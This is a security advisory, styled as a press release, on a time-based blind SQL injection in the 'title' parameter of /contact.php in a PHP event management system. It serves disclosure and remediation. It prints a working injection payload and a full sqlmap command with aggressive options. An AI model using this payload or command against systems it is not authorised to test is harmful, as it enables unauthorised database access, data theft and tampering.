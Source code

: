 # **Press Release: SQL Injection in Event Management System (PHP) v1.0**

**Product Name**: Event Management System In PHP With Source Code  
**Affected File**: `/contact.php`  
**Discovered By**: T3rm1n4L  
**Version**: 1.0  


## **1. Executive Summary**

A critical SQL injection vulnerability has been identified in the **Event Management System In PHP With Source Code** (v1.0). Attackers can exploit the `title` parameter within `/contact.php` to inject malicious SQL code, potentially gaining full access to the underlying database. Immediate remediation is strongly advised.


## **2. Timeline of Discovery**

1. **Initial Observation**  
   - **Activity**: Security researcher T3rm1n4L noticed abnormal behavior when manipulating the `title` parameter on `/contact.php`.

2. **Technical Confirmation**  
   - **Activity**: Researcher used `sqlmap` and manual testing to confirm a time-based blind SQL injection flaw.

3. **Impact Assessment**  
   - **Activity**: Verified attacker’s ability to exfiltrate sensitive data, modify records, and cause service interruptions.

4. **Disclosure**  
   - **Activity**: Vulnerability communicated to relevant stakeholders for patch development.

5. **Public Advisory Release**  
   - **Activity**: Security bulletin and public report issued to raise awareness and provide mitigation steps.


## **3. Technical Details**

- **Vulnerability Type**: SQL Injection (Time-Based Blind)
- **Parameter**: `title` (POST)
- **Proof of Concept (PoC)**:

```bash
Parameter: title (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: title=111' AND (SELECT 6044 FROM (SELECT(SLEEP(5)))Utkc) AND 'otMP'='otMP&message=1111&submit=
```

**Example sqlmap Command**:
```bash
sqlmap -u "10.211.55.6:1144/contact.php" \
       --data="title=111&message=1111&submit=" \
       --batch --level=5 --risk=3 \
       --random-agent --tamper=space2comment
```

_Screenshot of successful injection testing:_

<img width="907" alt="image" src="https://github.com/user-attachments/assets/e0010adf-1591-4b65-abb2-c71a7f292f72" />



## **4. Root Cause & Impact**

### **Root Cause**  
Insufficient user input validation of the `title` parameter allows direct injection of malicious payloads into SQL queries.

### **Potential Consequences**  
- **Unauthorized Database Access**: Attackers may read or modify protected information.  
- **Data Leakage**: Sensitive records (e.g., customer info) can be exposed.  
- **Data Tampering**: Malicious actors can create, update, or delete records.  
- **Operational Disruption**: System downtime or service interruption.


## **5. Remediation Steps**

1. **Implement Prepared Statements & Parameter Binding**  
   - Ensure separation of SQL logic and user inputs to prevent injection.

2. **Strengthen Input Validation**  
   - Enforce whitelist or strict validation on fields like `title`, rejecting suspicious characters.

3. **Apply Least Privilege**  
   - Restrict database user privileges, limiting the potential impact if a compromise occurs.

4. **Schedule Regular Security Assessments**  
   - Periodic code reviews and penetration tests to detect and address vulnerabilities promptly.


## **6. Additional Information**

- **Vendor Homepage**: [Event Management System In PHP](https://codezips.com/php/event-management-system-in-php-with-source-code/#google_vignette)  
- **Download Source**: [GitHub ZIP](https://codeload.github.com/codezips/event-management-system-php/zip/master)  
- **Disclosure Policy**: This advisory follows responsible disclosure guidelines, providing details to stakeholders prior to public release.


## **7. Disclaimer**

The contents of this press release are solely for informational purposes to aid in remediating the vulnerability. Unauthorized attempts to exploit the described vulnerability may violate applicable laws. All stakeholders are urged to patch immediately and adopt secure coding practices.
